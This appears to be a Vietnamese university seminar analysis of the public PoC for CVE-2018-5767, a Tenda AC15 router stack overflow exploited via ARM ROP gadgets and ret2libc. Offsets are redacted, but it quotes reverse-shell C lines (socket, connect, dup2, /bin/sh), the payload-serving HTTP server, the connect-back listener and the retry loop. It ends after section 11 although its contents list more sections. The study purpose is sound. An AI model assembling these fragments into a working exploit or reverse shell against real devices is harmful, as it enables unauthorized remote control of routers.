


# PHÂN TÍCH KỸ THUẬT CVE-2018-5767 DỰA TRÊN PoC EXPLOIT-DB 44253

**Dùng cho mini seminar S05 — Return-to-libc, môn NT521**  
**Phạm vi:** đọc và giải thích **mã PoC đã công bố**, liên hệ với Return-to-libc/ROP, đánh giá chứng cứ và đề xuất sửa báo cáo. **Không tái hiện khai thác** trên firmware, không bổ sung địa chỉ/offset bị che và không biến PoC thành bản có thể vận hành.  
**Ngày đối chiếu nguồn:** 03/11/2026.

## Mục lục

1. [Mục tiêu và kết luận cốt lõi](#1-mục-tiêu-và-kết-luận-cốt-lõi)
2. [Nguồn tài liệu và mức độ tin cậy](#2-nguồn-tài-liệu-và-mức-độ-tin-cậy)
3. [Thông tin CVE và điểm vào](#3-thông-tin-cve-và-điểm-vào)
4. [Bản đồ các thành phần của PoC](#4-bản-đồ-các-thành-phần-của-poc)
5. [Gốc lỗ hổng: Cookie, sscanf và stack overflow](#5-gốc-lỗ-hổng-cookie-sscanf-và-stack-overflow)
6. [Trọng tâm ret2libc: phân tích hàm exploit()](#6-trọng-tâm-ret2libc-phân-tích-hàm-exploit)
7. [Vì sao hai ARM gadget gọi được system()?](#7-vì-sao-hai-arm-gadget-gọi-được-system)
8. [NX, ASLR và cơ chế thử lại](#8-nx-aslr-và-cơ-chế-thử-lại)
9. [Giai đoạn hậu khai thác: ARM_REV_SHELL](#9-giai-đoạn-hậu-khai-thác-arm_rev_shell)
10. [compile_shell(), HTTP server, listener và main()](#10-compile_shell-http-server-listener-và-main)
11. [Giới hạn của PoC và những suy luận không được đánh đồng](#11-giới-hạn-của-poc-và-những-suy-luận-không-được-đánh-đồng)
12. [Những chỗ cần sửa trong báo cáo seminar](#12-những-chỗ-cần-sửa-trong-báo-cáo-seminar)
13. [Đoạn viết đề xuất thay thế mục C4](#13-đoạn-viết-đề-xuất-thay-thế-mục-c4)
14. [Dàn ý thuyết trình và câu hỏi phản biện](#14-dàn-ý-thuyết-trình-và-câu-hỏi-phản-biện)
15. [Nguồn tham khảo](#15-nguồn-tham-khảo)

---

## 1. Mục tiêu và kết luận cốt lõi

**Luận điểm seminar cần chứng minh:** việc một tiến trình không cho chạy mã trên stack (NX/DEP) **không đồng nghĩa** với việc lỗi stack buffer overflow không thể bị khai thác. Kẻ tấn công có thể tái sử dụng mã thực thi đã có sẵn; trong PoC này, hai ARM gadget giúp chuyển điều khiển đến hàm `system()` của libc. Đây là trường hợp liên hệ trực tiếp giữa **ROP** (chuỗi gadget điều khiển thanh ghi/luồng chạy) và **return-to-libc** (sử dụng hàm đã tồn tại trong libc).

**Phân biệt ba việc:**

- **Lỗ hổng:** dữ liệu do người gửi HTTP kiểm soát được xử lý không giới hạn độ dài, gây tràn bộ đệm trên stack của `httpd`.
- **Khai thác:** sửa dữ liệu điều khiển của stack, dùng hai gadget ARM và hàm `system()` để thực thi lệnh thông qua mã sẵn có.
- **Hậu khai thác:** tải/chạy một chương trình ARM tạo kết nối reverse shell. Đoạn C `ARM_REV_SHELL` **không phải** nguyên nhân overflow và **không phải** hai gadget ret2libc.

**Điểm sửa quan trọng của báo cáo cũ:** PoC tính địa chỉ `system` **và hai gadget** từ `curr_libc`. Vì vậy không nên trình bày chúng là các gadget có địa chỉ cố định trong binary `httpd` nếu đang lấy chính PoC 44253 làm căn cứ.

---

## 2. Nguồn tài liệu và mức độ tin cậy

| Ký hiệu | Nguồn | Chứng minh được điều gì? | Giới hạn |
|---|---|---|---|
| [S1] | Exploit-DB EDB-ID 44253 | Nội dung Python/C PoC công khai, các tên hàm, nhận xét về ROP/ASLR/watchdog | Mã bị **redact** các giá trị quan trọng; không chứng minh nhóm tự tái hiện thành công |
| [S2] | NVD CVE-2018-5767 | Sản phẩm/phiên bản, khả năng RCE từ xa không xác thực, điểm CVSS, CWE do NVD gán | Không mô tả từng gadget và không cung cấp mã nguồn `httpd` |
| [S3] | Full Disclosure/Fidus, 14/02/2018 | Công bố gốc: đầu vào không được xử lý an toàn dẫn vào `sscanf`, offset được che có chủ đích | Không phải toàn bộ write-up gốc và không có offset thực tế |
| [S4] | File seminar `S05_tai_lieu_hoc_va_trinh_bay (3).docx` | Nội dung nhóm đã viết ở phần C, đặc biệt C3/C4/C5 | Đây là bản thảo của nhóm, không tự thân chứng minh chi tiết kỹ thuật |

**Quy tắc trình bày:** trong file này, nhãn **[PoC]** nghĩa là nhìn thấy rõ trong mã 44253; **[NVD]** nghĩa là được NVD công bố; **[Advisory]** là từ thông báo Fidus; **[Suy luận kỹ thuật]** là cách giải thích hợp lý từ những bằng chứng trên, chưa phải kết quả thực nghiệm độc lập của nhóm.

> **Lưu ý về trích đoạn:** các đoạn dưới đây chỉ lấy những dòng cần cho giải thích tĩnh. Một số khối được rút gọn/diễn đạt phi vận hành, **không phải bản mã khai thác đầy đủ**.

---

## 3. Thông tin CVE và điểm vào

| Trường | Giá trị được hỗ trợ bởi nguồn |
|---|---|
| CVE | CVE-2018-5767 |
| Sản phẩm | Router Tenda AC15 |
| Firmware được nêu | `V15.03.1.16_multi` |
| Kiểu tấn công | Từ xa, không cần xác thực (RCE) |
| Điểm vào | Tham số `password` trong HTTP `Cookie` |
| Tiến trình liên quan | Web server `httpd`, theo phân tích kỹ thuật trong báo cáo và nguồn thứ cấp |
| CVSS 3.x của NVD | **9.8 / Critical**, `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| CWE do NVD gán | **CWE-20 — Improper Input Validation** |
| Phân loại lỗi nền dùng trong seminar | **CWE-121 — Stack-based Buffer Overflow** (phân loại giải thích, **không phải** CWE mà NVD gán cho bản ghi) |

**Hai cấp mô tả cần tách:** NVD xác nhận kết quả/đường vào mức CVE; chi tiết `R7WebsSecurityHandler`, `sscanf`, stack layout và gadget cần lấy từ advisory, PoC, reverse engineering hoặc nguồn nghiên cứu có mô tả rõ phương pháp.

**Không nhầm đường dẫn:** PoC 44253 đặt biến `url` với đường dẫn **`/goform/exeCommand`**. Đây là **đường dẫn xuất hiện trong PoC**, không phải bằng chứng rằng chỉ đường dẫn này có thể chạm bộ xử lý Cookie. Không tự ý đổi thành `/goform/execCommand` khi trích PoC.

---

## 4. Bản đồ các thành phần của PoC

| Thành phần xuất hiện trong mã | Chức năng | Có phải bản thân ret2libc? |
|---|---|---|
| `ARM_REV_SHELL` | Chuỗi Python chứa mã C kết nối TCP và khởi chạy shell | **Không** |
| `REV_PORT`, `HTTPD_PORT`, `DONE` | Cấu hình cổng và cờ phối hợp giữa các luồng | **Không** |
| `threaded_listener()` | Chờ kết nối ngược; đặt `DONE=True` khi `accept()` trả về | **Không** |
| `compile_shell()` | Sinh tệp C và biên dịch chương trình ARM | **Không** |
| `start_http_server()` | Phục vụ tệp chương trình ARM qua HTTP | **Không** |
| `exploit()` | Chuẩn bị URL/request, giá trị địa chỉ libc dự đoán, gadget/đầu vào và vòng thử | **Có, đây là trọng tâm** |
| `main()` | Kiểm tra tham số và sắp xếp trình tự thực hiện | **Không** |

### Sơ đồ trách nhiệm (đọc từ trái sang phải)



**Phần cần dành nhiều thời lượng nhất:** `exploit()` và **gadget → `system()`**. Những hàm còn lại giúp giải thích đường dẫn tới kết quả cuối.

---

## 5. Gốc lỗ hổng: Cookie, sscanf và stack overflow

### 5.1. Dữ liệu đầu vào đến từ đâu?

**Trích PoC [S1]:**

```python
url = "http://%s:%s/goform/exeCommand" % (host, port)
req = urllib2.Request(url)
req.add_header("Cookie", "password=%s" % password)
```

**Giải thích từng dòng:**

1. `url` là địa chỉ giao diện HTTP của **router mục tiêu** (đây là mục đích của hai tham số `host` và `port` trong hàm `exploit`).
2. `urllib2.Request(url)` tạo đối tượng request, chưa chứng minh request đã được gửi.
3. `add_header("Cookie", ...)` đưa dữ liệu biến `password` vào trường HTTP `Cookie` dưới khóa `password`.
4. Phân biệt quan trọng: dữ liệu `password` trong PoC **không phải mật khẩu đăng nhập hợp lệ**; đây là **đầu vào bị kiểm soát** để chạm đường xử lý thiếu an toàn.

### 5.2. Lỗi nằm ở đâu?

**[Advisory]** Fidus mô tả nguyên nhân là đầu vào không được xử lý an toàn được chuyển trực tiếp cho `sscanf`, dẫn đến buffer overflow. NVD cũng xác nhận tham số `password` của HTTP `Cookie` là đầu vào có thể dẫn đến RCE từ xa không xác thực.

**Ví dụ C để minh họa nguyên lý, KHÔNG phải bản trích chính xác từ firmware:**

```c
char buf[64];                 // bộ đệm có dung lượng hữu hạn
sscanf(input, "%[^;]", buf); // không nêu giới hạn chiều rộng đọc
```

Trong ví dụ minh họa, `%[^;]` là *scanset*: đọc chuỗi cho đến dấu `;`. Nếu số byte ghi vào `buf` vượt dung lượng khả dụng, vùng nhớ tiếp theo có thể bị ghi đè. Đây là cách hiểu khái niệm **source → unsafe copy → stack overflow**; **không tuyên bố** đây là nguyên văn câu lệnh được dịch ngược từ bản firmware được NVD nêu.

### 5.3. Tại sao lại dẫn đến control-flow hijack?

```text
SƠ ĐỒ KHÁI NIỆM (không phải offset của router)

+----------------------------------+
| Buffer cục bộ trên stack          | <— nhận giá trị Cookie password
+----------------------------------+
| Thông tin stack frame / saved reg |
+----------------------------------+
| Dữ liệu điều khiển khi hàm trả về | <— có thể bị ghi đè
+----------------------------------+
```

- **Overflow** chỉ chứng minh việc ghi vượt.
- **Crash** có thể là hậu quả khi dữ liệu ghi đè khiến CPU dùng một địa chỉ sai.
- **Control-flow hijack** là mức mạnh hơn: đối tượng khai thác điều khiển được đích thực thi khi hàm trả về.
- **Ret2libc/ROP** là cách sử dụng quyền điều khiển luồng này để chạy mã *đã tồn tại*.

**Lời thuyết trình 20 giây:** “Cookie là nguồn dữ liệu. Lời gọi `sscanf` thiếu giới hạn là điểm ghi không an toàn. Ghi vượt buffer trên stack có thể phá dữ liệu điều khiển của hàm, mở đường cho chuỗi gadget.”

---

## 6. Trọng tâm ret2libc: phân tích hàm `exploit()`

### 6.1. Khung hàm và phân biệt đích HTTP với máy điều khiển

**Trích PoC [S1]:**

```python
def exploit(host, port, my_ip):
    global DONE
    url = "http://%s:%s/goform/exeCommand" % (host, port)
    i = 0
```

- `host`, `port`: địa chỉ và cổng web service của router được chọn trong PoC.
- `my_ip`: IP máy chạy chương trình Python; được dùng về sau khi mô tả nơi phục vụ tệp ARM/nhận kết nối.
- `DONE`: biến toàn cục báo trạng thái **đã nhận TCP connect-back** từ listener, **không phải** biến do router đặt.
- `i`: số vòng thử, dùng để in trạng thái.

### 6.2. Lệnh được hướng tới sau khi đã có quyền gọi `system()`

**Trích rút gọn có chủ đích từ dòng định nghĩa `command` [S1]:**

```python
command = "[tải chương trình ARM qua HTTP] && [chuẩn bị quyền chạy] && [chạy chương trình]"
```

Khối này là **sơ đồ ý nghĩa, không phải dòng Python nguyên văn**. Trong PoC gốc, `command` là một chuỗi lệnh shell tải tệp `a` từ HTTP server do PoC mở, lưu tạm trên router, đổi quyền rồi gọi chương trình ARM đó. Dấu `&&` biểu thị ý định thực hiện bước tiếp theo khi bước trước thành công.

**Ý nghĩa đối với ret2libc:** `system()` không phải đích cuối cùng của reverse shell. Nó được dùng như một **cầu nối thực thi lệnh đã tạo sẵn**, rồi chương trình ARM mới đảm nhiệm kết nối ngược.

**Chi tiết cần thận trọng:** lệnh chuỗi trong PoC công khai có phần kết thúc cú pháp đáng nghi (`&;`). Không nên khẳng định chuỗi lệnh sẽ chạy thành công trên mọi shell/firmware nếu không có kiểm chứng. Seminar chỉ cần giải thích **mục đích được tác giả thể hiện trong mã**.

### 6.3. Giả định địa chỉ libc và hàm `system()`

**Trích PoC [S1]:**

```python
libc_base = ****
curr_libc = libc_base + (0x7c << 12)
system = struct.pack("<I", curr_libc + ****)
```

**Giải thích:**

- `libc_base = ****`: nguồn công khai đã **che giá trị**; không phải hằng số chạy được.
- `curr_libc`: một địa chỉ libc **dự đoán/candidate** xây từ giá trị bị che và một phép cộng; tên biến không chứng minh đây là địa chỉ thực của tiến trình đang chạy.
- `0x7c << 12`: phép dịch trái 12 bit; ở đây là một thành phần trong phép tính của tác giả. **Không** được tự suy ra đây là cách dò chính xác mọi cấu hình ASLR.
- `curr_libc + ****`: cộng offset của hàm `system` trong libc; offset cũng **đã bị che**.
- `struct.pack("<I", ...)`: đóng gói một giá trị nguyên không dấu 32 bit theo thứ tự byte **little-endian** thành 4 byte, phù hợp với cách biểu diễn địa chỉ mà PoC chọn.

**Điểm phải nói:** PoC dựa trên việc biết/ước lượng cấu trúc địa chỉ và offset của libc, không tự động chứng minh đã có memory leak để lấy base libc chính xác.

### 6.4. Hai gadget ARM

**Trích PoC [S1]; bỏ các biểu thức địa chỉ bị che:**

```python
# pop {r3, r4, r7, pc}
# mov r0, sp ; blx r3
```

Trong mã, biến được đặt tên `pop` và `mv_r0_sp`, mỗi biến là một địa chỉ gadget đóng gói bằng `struct.pack("<I", curr_libc + ****)`.

**Tại sao đáng chú ý?** Cả hai địa chỉ gadget đều tính **tương đối với `curr_libc`**, giống `system()`. Vì vậy báo cáo không được lấy một ví dụ khái quát “gadget trong `httpd` cố định” làm **mô tả cụ thể** của đúng PoC này.

### 6.5. Tổ chức đầu vào `password` ở mức khái niệm

**Trích một phần từ PoC [S1]:**

```python
password = "A" * offset
```

- Chữ `A` chỉ là byte điền để lấp một vùng trước dữ liệu điều khiển; nó **không mang ý nghĩa là mã ARM**.
- `offset` không có định nghĩa khả dụng trong bản PoC công khai. Đây là khoảng cách cần biết từ điểm ghi vào tới dữ liệu điều khiển stack; **không được suy đoán một con số cụ thể**.
- Sau phần điền, PoC ghép các địa chỉ gadget, địa chỉ `system`, byte đệm và chuỗi lệnh. **Không dựng lại chuỗi byte hoàn chỉnh** vì đó vừa không cần cho mục tiêu seminar, vừa không thể xác minh với các offset đã bị che.

**Bố cục trừu tượng — không phải payload nhị phân:**

```text
password (biểu diễn vai trò, KHÔNG có offset thực tế)
  [phần lấp tới điểm điều khiển]
  [địa chỉ gadget điều phối thanh ghi/PC]
  [giá trị sẽ dùng như địa chỉ system]
  [giá trị điền cho các thanh ghi khác]
  [địa chỉ gadget chuyển SP vào r0 rồi gọi r3]
  [chuỗi lệnh cho hàm thư viện]
```

Phần đuôi `.gif` cũng xuất hiện trong chuỗi PoC. **Chỉ từ mã công khai không thể khẳng định chắc chắn vì sao tác giả lựa chọn hậu tố đó**; không cần biến một phỏng đoán thành sự thật khi thuyết trình.

### 6.6. Vòng lặp phát request

**Trích PoC [S1]:**

```python
while not DONE:
    i += 1
    req = urllib2.Request(url)
    req.add_header("Cookie", "password=%s" % password)
```

**Bản chất:** tiếp tục thử cho đến khi luồng listener báo đã nhận kết nối TCP. `i` đếm số lần lặp. Phần còn lại của vòng dùng `urllib2.urlopen(req)` để gửi request, bắt ngoại lệ không xử lý và tạm nghỉ giữa các lần.

**Không nên diễn đạt:** “PoC duyệt lần lượt các địa chỉ ASLR.” Trong đoạn công khai, `curr_libc` được đặt **trước** vòng `while`, không có câu lệnh điều chỉnh nó ở từng lượt. Đúng hơn là **lặp lại cùng một dự đoán trong nhiều lần tiến trình được khởi động lại**, dựa trên giả định cơ chế randomization có thể tái chọn địa chỉ đó.

---

## 7. Vì sao hai ARM gadget gọi được `system()`?

> Đây là **phần nên dành nhiều thời lượng nhất** trong seminar.

### 7.1. Điều kiện nền: ARM 32-bit và quy ước gọi hàm

Ở ARM 32-bit theo quy ước gọi hàm AAPCS thường gặp, **đối số đầu tiên** của một hàm được đặt trong thanh ghi **`r0`**. Hàm `system(const char *command)` cần con trỏ tới chuỗi lệnh làm đối số. Vì vậy, chỉ trỏ luồng thực thi tới `system()` là **chưa đủ** nếu `r0` chưa chứa địa chỉ chuỗi hợp lệ.

So sánh trong slide:

| Kiến trúc | Nơi truyền đối số đầu tiên (quy ước thường gặp) |
|---|---|
| x86 32-bit cdecl | Stack |
| x86-64 System V | `RDI` |
| ARM 32-bit AAPCS | `r0` |

Không được bê bố cục stack của ret2libc x86 cdecl sang ARM rồi coi là tương đương.

### 7.2. Vai trò gadget `pop {r3, r4, r7, pc}`

**Trích chú thích thật trong PoC [S1]:**

```asm
pop {r3, r4, r7, pc}
```

**Giải thích theo ngữ nghĩa lệnh ARM:** `pop` lấy các giá trị theo vị trí tương ứng từ stack để nạp vào `r3`, `r4`, `r7` và `pc`; cập nhật `sp` sau khi đọc. Đặt một giá trị vào **`pc`** có thể khiến bộ xử lý tiếp tục thực thi tại một địa chỉ khác. `r3` đóng vai trò chứa đích được gadget kế tiếp dùng để gọi gián tiếp. Hai thanh ghi `r4`, `r7` có mặt trong tập thanh ghi được gadget nạp, nhưng **không phải trọng tâm của lời gọi hàm đang phân tích**.

### 7.3. Vai trò gadget `mov r0, sp ; blx r3`

**Trích chú thích thật trong PoC [S1]:**

```asm
mov r0, sp
blx r3
```

- `mov r0, sp`: sao chép **giá trị con trỏ stack** sang thanh ghi đối số thứ nhất `r0`.
- `blx r3`: nhánh tới địa chỉ đang nằm trong `r3`, đồng thời là một lệnh gọi có liên kết (cập nhật LR theo ngữ nghĩa ARM).
- Nếu ngữ cảnh stack và thanh ghi phù hợp với lời gọi mong muốn, tổ hợp này cho phép gọi một hàm nhận đối số đầu tiên là con trỏ đến dữ liệu trên stack.

### 7.4. Chuỗi logic hoàn chỉnh (không phải địa chỉ/gadget chain chạy được)



**Câu chốt nên nói:** “Gadget thứ nhất thiết lập các thanh ghi và chuyển `pc`; gadget thứ hai đặt `r0` trỏ đến chuỗi lệnh rồi gọi gián tiếp hàm qua `r3`. Việc gọi một hàm trong libc vốn được phép thực thi giải thích vì sao NX không chặn riêng kiểu khai thác này.”

**Vì sao tên đúng là ROP + ret2libc?** ROP mô tả cách **xâu chuỗi các đoạn lệnh sẵn có** để dàn dựng trạng thái thực thi; ret2libc mô tả **đích chức năng là hàm thư viện**. Hai thuật ngữ không loại trừ nhau trong PoC này.

---

## 8. NX, ASLR và cơ chế thử lại

### 8.1. NX/DEP

**[PoC]** Chú thích trong hàm `exploit()` nói rõ tác giả dùng **hai ROP gadget** để vượt trở ngại DEP/NX.

- NX đánh dấu một số vùng dữ liệu như stack là không thực thi mã máy.
- Mã `system()` và gadget trong vùng mã thư viện có thể được thực thi theo quyền của vùng đó.
- Do vậy, NX không tự động ngăn **tái sử dụng mã sẵn có**.
- **Không suy luận ngược:** chỉ vì PoC ghi “bypass DEP/NX” mà nhóm đã tự kiểm nghiệm cờ NX của binary; nếu không phân tích firmware thật, hãy nói “theo mô tả tác giả PoC”.

### 8.2. ASLR khác NX như thế nào?

| Bảo vệ | Câu hỏi mà bảo vệ giải quyết | Liên hệ CVE |
|---|---|---|
| NX/DEP | Có được chạy mã ở vùng stack không? | Dẫn tới cách dùng mã libc/gadget thay vì shellcode trên stack |
| ASLR | Địa chỉ các vùng nhớ khi chạy có dự đoán được không? | Làm khó việc biết địa chỉ runtime của `system` và gadget |
| PIE | Địa chỉ nền của **executable chính** có thể được ngẫu nhiên hóa không? | Không đồng nghĩa với ASLR của libc; cần xem binary/loader cụ thể |
| Stack canary | Có phát hiện can thiệp stack trước khi trả về không? | Có thể ngăn một số đường ghi đè return address |
| Input validation | Có chặn ghi vượt ngay từ đầu không? | Là biện pháp sửa gốc, quan trọng nhất |

### 8.3. PoC đối phó ASLR như thế nào?

**Trích mô tả của tác giả PoC [S1], diễn đạt ngắn:** tiến trình bị crash có thể được **watchdog khởi động lại**; tác giả nói có thể **brute-force ASLR** vì điều này.

**Điều thực sự nhìn thấy trong code:** `curr_libc` được tính một lần; trong vòng `while not DONE`, request được lặp lại, ngoại lệ của HTTP request bị bỏ qua và chương trình chờ một khoảng thời gian trước lần tiếp theo.

**Diễn giải có điều kiện:** nếu mỗi lần khởi động lại làm địa chỉ libc thay đổi và thỉnh thoảng trùng với địa chỉ giả định, những lần thử độc lập có thể gặp kết quả phù hợp. Mã công khai **không chứng minh** xác suất thành công, số lượt cần thiết, hay cơ chế watchdog trên mọi phiên bản firmware.

**Đặc biệt:** `except: pass` **không chứng minh crash đã xảy ra**. Nó chỉ chứng minh chương trình Python bỏ qua ngoại lệ, vốn có thể do nhiều nguyên nhân mạng/HTTP.

---

## 9. Giai đoạn hậu khai thác: `ARM_REV_SHELL`

### 9.1. Đây là mã gì?

**[PoC]** `ARM_REV_SHELL` là một biến Python chứa **chuỗi mã nguồn C**, không phải một hàm Python. Sau khi thay chỗ giữ giá trị IP/cổng, chuỗi này được ghi ra file `.c` và biên dịch thành chương trình cho router ARM.

### 9.2. Tạo socket và kết nối

**Trích từng dòng riêng lẻ từ PoC [S1]:**

```c
int sock = socket(AF_INET, SOCK_STREAM, 0);
```

- `AF_INET`: IPv4.
- `SOCK_STREAM`: socket kiểu luồng, ở đây nhằm dùng TCP.
- `sock`: file descriptor được hệ điều hành trả về nếu tạo thành công.

```c
addr.sin_family = AF_INET;
```

`addr` là một `struct sockaddr_in`, dùng để lưu họ địa chỉ, cổng và IPv4 đích. Các trường còn lại được điền bằng IP/cổng đã cấu hình trong quá trình tạo chương trình.

```c
connect(sock, (struct sockaddr *)&addr, sizeof(addr));
```

**Kết luận:** chương trình chạy trên router **chủ động gọi ra** máy nhận kết nối. Đây là đặc điểm *reverse* shell; chưa có shell nào được tạo chỉ bằng `socket()` và `connect()`.

### 9.3. Chuyển hướng ba file descriptor chuẩn

**Trích tên lời gọi từ PoC [S1]:** `dup2(sock, 0)`, `dup2(sock, 1)`, `dup2(sock, 2)`.

| Descriptor | Chức năng | Ý nghĩa của chuyển hướng |
|---|---|---|
| `0` / `stdin` | Dữ liệu đầu vào | Shell có thể nhận dữ liệu từ kết nối TCP |
| `1` / `stdout` | Kết quả thông thường | Output được gửi qua TCP |
| `2` / `stderr` | Thông báo lỗi | Lỗi cũng có thể trả qua TCP |

**Đây là điểm phân biệt** một socket TCP thông thường với cơ chế tạo shell qua mạng: luồng tương tác của tiến trình shell được gắn với socket.

### 9.4. Khởi chạy shell

**Trích PoC [S1]:**

```c
system("/bin/sh");
```

Câu lệnh yêu cầu hệ điều hành gọi shell. Khi đặt trong bối cảnh các file descriptor đã chuyển hướng, nó thể hiện ý định biến kết nối TCP thành kênh tương tác lệnh. Điều này **khác** với lời gọi `system()` trong ret2libc: có **hai vị trí gọi `system()` khác nhau về vai trò**:

1. **`system()` trong libc được ret2libc gọi tới** ở giai đoạn khai thác `httpd`, nhằm chạy lệnh hậu khai thác.
2. **`system("/bin/sh")` nằm trong chương trình C ARM** được chạy về sau, nhằm sinh shell qua socket.

**Đừng gộp thành một:** đây là điểm rất dễ bị giảng viên hỏi.

### 9.5. Giới hạn chất lượng mã C

Mã C công khai không phải ví dụ chất lượng production: không xử lý đầy đủ lỗi của socket/connect/dup2, có biến không dùng và khai báo header chưa đầy đủ cho một số hàm trong môi trường C nghiêm ngặt. Kết quả phụ thuộc compiler/libc/firmware. Vì vậy **biên dịch được** không đồng nghĩa **chạy được** hay **kết nối thành công**.

---

## 10. `compile_shell()`, HTTP server, listener và `main()`

### 10.1. `compile_shell()` — chuyển chuỗi C thành chương trình ARM

**Trích PoC [S1]:**

```python
ARM_REV_SHELL = ARM_REV_SHELL % (REV_PORT, my_ip)
outfile.write(ARM_REV_SHELL)
```

- Toán tử định dạng chuỗi `%` đặt IP và cổng vào hai chỗ giữ giá trị của mã C.
- `outfile.write()` ghi chuỗi đã định dạng vào tệp nguồn C.
- Đường dẫn compiler ở `comp_path` được dùng để tạo executable ARM tên `a`.
- Đây là **cross-compilation**: máy biên dịch và CPU đích có thể khác kiến trúc.
- Hàm trả `True` nếu tiến trình compiler kết thúc với mã 0. **Không** có phép thử firmware trong `compile_shell()`.

### 10.2. `start_http_server()` — phục vụ tệp đầu ra

**Trích PoC [S1]:**

```python
Handler = SimpleHTTPServer.SimpleHTTPRequestHandler
httpd = SocketServer.TCPServer(("", HTTPD_PORT), Handler)
httpd.serve_forever()
```

- Sử dụng thư viện HTTP của **Python 2** để mở HTTP server trên máy chạy PoC.
- **`HTTPD_PORT` là cổng server do PoC mở**, không phải mặc định cổng web quản trị của router.
- Trong ngữ cảnh mã, server này cung cấp tệp `a` để chương trình trên router có thể lấy về ở giai đoạn sau.

### 10.3. `threaded_listener()` — nhận kết nối ngược

**Trích PoC [S1]:**

```python
s.listen(1)
conn, host = s.accept()
DONE = True
```

- `listen(1)` đưa TCP socket vào chế độ chờ kết nối.
- `accept()` trả về kết nối đã được chấp nhận và thông tin bên kết nối tới.
- `DONE=True` được đặt sau khi nhận được kết nối; trong thiết kế PoC, nó khiến vòng thử ở `exploit()` kết thúc.
- Listener còn có vòng đọc lệnh từ bàn phím và trao đổi dữ liệu qua socket. Đây là **giao diện hậu khai thác**, không phải nội dung ROP.

**Giới hạn của chứng cứ:** `DONE=True` chỉ là một tiêu chí do tác giả tự định nghĩa khi nhận TCP connect-back; tự nó không xác minh danh tính đầu bên kia hoặc quyền của tiến trình shell.

### 10.4. `main()` — điều phối các bộ phận

Trong PoC, `main()` thực hiện theo trình tự:

1. Đọc địa chỉ router, cổng giao diện web, đường dẫn ARM cross-compiler và IP máy chạy PoC.
2. Kiểm tra các tham số tối thiểu.
3. Gọi `compile_shell()` để chuẩn bị chương trình ARM.
4. Khởi tạo HTTP server trong một daemon thread.
5. Khởi tạo TCP listener trong thread riêng.
6. Gọi `exploit()` để xử lý phần HTTP Cookie và ret2libc.
7. `join()` listener để chờ vòng làm việc của nó kết thúc.

**Nhận xét kỹ thuật:** mã dùng Python 2 (ví dụ `urllib2`, `SimpleHTTPServer`, cú pháp `print` cũ). Không nên mô tả PoC như script tương thích Python 3 mà không chỉnh sửa và kiểm chứng.

---

## 11. Giới hạn của PoC và những suy luận không được đánh đồng

| Mệnh đề | Đánh giá | Cách nói chính xác hơn |
|---|---|---|
| “PoC cho thấy hai gadget và `system` được tính từ libc.” | **Đúng theo code.** | “Địa chỉ được mô tả dưới dạng `curr_libc + offset` bị che.” |
| “Gadget của PoC nằm trong `httpd` và không PIE.” | **Không được hỗ trợ bởi snippet này; mâu thuẫn cách tính trong PoC.** | “Các gadget được PoC tính tương đối từ libc.” |
| “Đã có offset chính xác để chạy.” | **Sai.** | “PoC che offset và `libc_base`; `offset` không được định nghĩa trong bản công khai.” |
| “Cứ HTTP exception là chứng minh `httpd` crash.” | **Sai.** | “Tác giả bỏ qua exception, vì một lần crash có thể làm request lỗi; không thể suy kết luận crash từ exception đơn lẻ.” |
| “Vòng lặp sẽ thử tuần tự mọi địa chỉ ASLR.” | **Sai.** | “Đoạn công khai giữ nguyên địa chỉ dự đoán qua vòng thử.” |
| “Sau khi thành công, `system` trực tiếp tạo reverse shell.” | **Thiếu bước trung gian.** | “Ret2libc hướng tới lệnh tải/chạy chương trình ARM; chương trình đó tạo reverse shell.” |
| “`DONE=True` chứng minh nhóm lấy root.” | **Sai.** | “Đây chỉ là cờ báo listener nhận một kết nối.” |
| “Tất cả phiên bản Tenda AC15 đều có lỗi.” | **Không được NVD hỗ trợ.** | “Nêu chính xác firmware trong bản ghi CVE.” |
| “Exact format string là `%[^;]`.” | **Chưa được tài liệu gốc ở đây chứng minh.** | “Đây là ví dụ minh họa scan-set thiếu giới hạn; phân tích firmware độc lập mới xác nhận được format thực.” |
| “Biên dịch ARM thành công nghĩa là CVE đã khai thác.” | **Sai.** | “Chỉ chứng minh tiến trình compiler báo thành công.” |

